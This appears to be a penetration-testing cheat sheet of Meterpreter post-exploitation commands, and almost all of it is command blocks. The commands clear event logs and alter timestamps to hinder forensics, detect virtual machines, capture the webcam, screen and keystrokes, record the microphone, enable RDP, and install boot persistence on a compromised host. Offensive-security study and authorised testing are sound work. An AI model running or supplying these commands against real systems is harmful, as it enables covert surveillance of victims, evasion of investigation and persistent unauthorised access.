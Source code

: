 # Meterpreter post-exploitation commands

[Go back](../index.md#meterpreter)

<div class="row row-cols-md-2 mt-4"><div>

You can pivot using a [SOCKS proxy server](/operating-systems/networking/protocols/socks.md).

* ➡️ | `root`. Clear logs

```shell!
meterpreter> clearev
```

* ➡️  | `root`. Mess with timestamp to complicate forensics

```shell!
meterpreter> timestomp
```

* ➡️  | `not tested`. Check if we are in a VM

```shell!
meterpreter> run post/windows/gather/checkvm
```

* ➡️ Resolve a host from a name <small>(get IP from hostname)</small>

```shell!
meterpreter> resolve hostname
```

* ➡️ Random commands

```shell!
meterpreter> idletime # time the host was idle
meterpreter> ipconfig # network information
meterpreter> localtime # time and date
meterpreter> getenv PATH # get PATH
meterpreter> checksum <file> # get file checksum
```
</div><div>

All the commands below require administrative/root privileges.

<details class="details-e">
<summary>Take control of the webcam</summary>

```shell!
meterpreter> webcam_list
meterpreter> webcam_snap
```
</details>

<details class="details-e">
<summary>Take a screenshot</summary>

```shell!
meterpreter> migrate -N explorer.exe
meterpreter> use espia
meterpreter> screengrab
```

You may also use `screenshot` 📌.
</details>

<details class="details-e">
<summary>Install a keylogger</summary>

```shell!
meterpreter> migrate -N explorer.exe
meterpreter> keyscan_start # start
meterpreter> keyscan_dump # dump keys
```
</details>

<details class="details-e">
<summary>Watch the screen in real time</summary>

Watch the remote user desktop in real time

```shell!
meterpreter> screenshare
meterpreter> record_mic # Record audio from the default microphone for X seconds
```
</details>

<details class="details-e">
<summary>Record microphone</summary>

Record audio from the default microphone for X seconds

```shell!
meterpreter> record_mic
```
</details>

<details class="details-e">
<summary>Enable Remote Desktop Protocol</summary>

```shell!
meterpreter> run post/windows/manage/enable_rdp
```
</details>

<details class="details-e">
<summary>Persistence</summary>

See [METERPRETER SERVICE](https://www.offensive-security.com/metasploit-unleashed/meterpreter-service/).

```shell!
meterpreter> # Automatically start the agent when the system boots
meterpreter> run persistence -X
```
</details>
</div></div>